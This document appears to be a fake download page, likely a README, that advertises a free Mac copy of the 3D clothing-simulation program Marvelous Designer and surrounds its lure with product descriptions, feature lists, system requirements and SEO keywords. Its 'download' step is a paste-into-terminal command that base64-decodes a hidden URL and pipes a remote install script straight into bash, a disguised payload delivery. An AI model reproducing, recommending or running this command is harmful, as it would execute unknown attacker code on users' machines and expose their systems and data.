 # Marvelous Designer Mac Download

![Marvelous Designer Screenshot](https://pixz.com.br/wp-content/uploads/2024/07/Captura-de-tela-2025-02-21-175550.png)  

---

## ⬇️ Download Marvelous Designer for Mac

> Open the terminal on your device and paste the command below

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ✨ What is Marvelous Designer for Mac?

**Marvelous Designer for Mac** is a cutting-edge 3D software tool designed for fashion designers, digital artists, and 3D creators who need high-end, realistic clothing simulations. Built with precision and creativity in mind, Marvelous Designer enables users to design garments with real-world accuracy using a dynamic cloth simulation engine. Whether you're crafting a single shirt or an entire wardrobe for digital characters, this tool helps bring your designs to life.

The software features an intuitive, node-based interface that allows users to stitch patterns together, simulate cloth movement, and refine designs in real-time. It supports importing avatars and 3D models from software like CLO 3D, Blender, Maya, or ZBrush, making it an essential part of any 3D content creation pipeline. Marvelous Designer has become a standard in industries such as gaming, VFX, animation, and even virtual fashion.

Marvelous Designer supports layering, wind simulation, real-time physics, modular design libraries, and GPU acceleration for smoother workflow. Its export tools allow you to output garments in OBJ or FBX formats, ready for rigging or rendering elsewhere. Whether you're a professional working in digital fashion, or a hobbyist interested in garment creation, Marvelous Designer for macOS delivers powerful features without sacrificing usability.

Marvelous Designer is compatible with modern macOS devices, including Apple Silicon (M1/M2) chips. It gives creators access to a library of free garments and templates to speed up the process and can integrate seamlessly with CLO 3D workflows. From T-shirts to gowns, Marvelous Designer transforms your digital clothing ideas into interactive, animated assets with remarkable realism and control.

---

## 💡 Features

- 👚 **Realistic Cloth Simulation** – Physics-based garment simulation in real time  
- 🧵 **Pattern-Based Design** – Draft, cut, and sew 2D garment patterns  
- 🖥 **3D Preview** – See garments react naturally on 3D avatars  
- 📦 **Export Options** – FBX, OBJ, Alembic support for pipeline integration  
- 🧠 **Smart Templates** – Drag-and-drop reusable patterns  
- 🧑‍🎨 **Avatar Support** – Import custom models or use built-in avatars  
- 🚀 **Apple Silicon Support** – Optimized for M1/M2 Mac devices  
- 🎮 **Game & VFX-Ready** – Trusted by studios and indie artists  

---

![Marvelous Designer Mac](https://d2tmthzm7jp200.cloudfront.net/images/attachments/000/010/805/original/ELO02_7.jpg?1734967997)

---

## 💻 System Requirements

- **OS:** macOS 10.14 Mojave or later  
- **CPU:** Intel or Apple Silicon (M1/M2)  
- **RAM:** 8GB minimum (16GB recommended)  
- **GPU:** Metal-supported graphics card  
- **Storage:** ~2GB free space  

---

## 🔑 Keywords

`marvelous designer`, `marvelous designer free`, `marvelous designer free download`, `marvelous designer download`,  
`marvelous designer mac`, `marvelous designer mac free`, `marvelous designer mac download`,  
`marvellous designer`, `marvellous designer free`, `download marvelous designer free`,  
`marvellous designer free download`, `marvelous 3d`, `marvelous software`, `clo3d marvelous designer`,  
`clo 3d marvelous designer`, `download marvelous designer`, `clo marvelous designer`,  
`free marvelous designer clothes`, `free marvelous designer garments`, `marvellous designer download`,  
`marvelous clo`, `marvelous designer 10`, `marvelous designer 12`, `marvelous clothing designer`,  
`marvelous designer clothes free`, `marvelous 3d download`, `marvelous designer 10 download`,  
`marvelous designer 10 free`, `marvelous designer 10 free download`, `marvelous designer 10 mac`,  
`marvelous designer 11 free`, `marvelous designer 11 free download`

